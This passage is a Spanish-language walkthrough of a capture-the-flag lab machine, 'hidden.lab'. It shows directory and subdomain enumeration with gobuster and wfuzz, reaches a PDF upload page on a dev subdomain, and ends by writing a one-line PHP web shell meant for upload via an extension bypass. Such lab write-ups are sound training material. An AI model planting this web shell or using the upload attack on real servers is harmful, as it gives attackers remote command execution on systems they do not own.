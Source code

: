### Descubrimiento de Archivos
```bash
gobuster dir -u http://hidden.lab/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,php.back,backup,txt,sh,html,js,pl
```

- **Hallazgos**:
```bash
/contact.html         (Status: 200) [Size: 11680]
/about.html           (Status: 200) [Size: 9703]
/img                  (Status: 301) [Size: 306] [--> http://hidden.lab/img/]
/index.html           (Status: 200) [Size: 10483]
/mail                 (Status: 301) [Size: 307] [--> http://hidden.lab/mail/]
/menu.html            (Status: 200) [Size: 11846]
/service.html         (Status: 200) [Size: 10926]
/css                  (Status: 301) [Size: 306] [--> http://hidden.lab/css/]
/lib                  (Status: 301) [Size: 306] [--> http://hidden.lab/lib/]
/js                   (Status: 301) [Size: 305] [--> http://hidden.lab/js/]
/LICENSE.txt          (Status: 200) [Size: 1456]
/testimonial.html     (Status: 200) [Size: 10335]
/reservation.html     (Status: 200) [Size: 11786]
```

Enumerando **subdominios** encontramos lo siguiente:
```bash
wfuzz -c --hl=9 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.hidden.lab" -u 172.17.0.2
```

Tenemos un **subdominio** valido
```bash
000000019:   200        57 L     130 W      1653 Ch     "dev"
```

Para que puedamos acceder a este subdominio lo tenemes que volver a agregar a nuestro archivo: **( /etc/hosts )**
```bash
172.17.0.2 dev.hidden.lab
```

Tenemos esta pagina donde podemos subir archivos **PDF**, Si no valida el tipo de archivo tenemos una via potencial de ganar acceso al servidor:
```bash
http://dev.hidden.lab/
```

Lanzamos **burpsuite** para interceptar la **peticion**, Lo primero que aremos es un ataque de externsiones
```bash
burpsuite &>/dev/null & disown
```

Ahora creamos un archivo **php** malicioso: **( cmd.php )**
```php
<?php
  system($_GET["cmd"]);
?>
```
